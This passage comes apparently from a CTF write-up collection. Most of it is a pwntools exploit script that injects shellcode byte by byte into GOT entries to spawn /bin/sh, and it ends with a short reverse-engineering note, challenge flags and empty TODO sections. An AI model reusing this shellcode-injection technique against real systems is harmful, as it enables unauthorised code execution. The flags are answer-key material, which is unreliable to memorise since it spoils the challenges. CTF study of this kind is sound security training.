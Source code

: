 ```CTF{9b93e344611c1fa883ef647c5a26730823124ae5e56bc5005a319a710ae55a92}```
    return r

def main():
    r = conn()

    r.clean()
    # main 0x0040125b
    # syscall 004012b2
    CALL_MAIN = "push 0x0040125b; ret;"

    start = 0x00404048 # exit got, it is not written unless the program exits => we can use it
    # write /bin/sh byte by byte
    bin_sh = b"/bin/sh"
    for b in bin_sh:
        payload = f"mov byte ptr[{start}], {b};" + CALL_MAIN
        payload = asm(payload)
        print(len(payload))
        r.sendline(payload)
        start += 1
    
    start = 0x00404008 # the two empty got entries
    shellcode = asm("mov al, 0x3b; mov edi, 0x00404048; push 0x004012b2; ret;")
    print("this", len(shellcode))
    for b in shellcode:
        payload = f"mov byte ptr[{start}], {b};" + CALL_MAIN
        payload = asm(payload)
        print(len(payload))
        r.sendline(payload)
        start += 1

    # last piece, where we call the stored shellcode
    payload = asm("xor rdx, rsi; xor rsi, rsi;mov rcx, 0x00404008; call rcx;")
    print(len(payload))
    r.sendline(payload)
    r.interactive()

if __name__ == "__main__":
    main()
```

## secrets-secrets-secrets
### Flag proof
```ctf{fb2570e300e4cf45c27011642df6f894add029290dd6451b5cb7a8f505523337}```
### Summary
Reverse engineer python. Print the expect passphrase.
### Details

Renaming just one variable it's very to see that it is compared with the user input. Therefore just running the script does the trick.

![image](https://github.com/vektor8/CTF-Writeups/assets/56222237/4584b3e6-6c7a-4cba-961d-53617b442aa0)


Resulting text is in binary which we can easily decode with cyberchef.

## secure-communications
TODO

## file-factory
TODO

```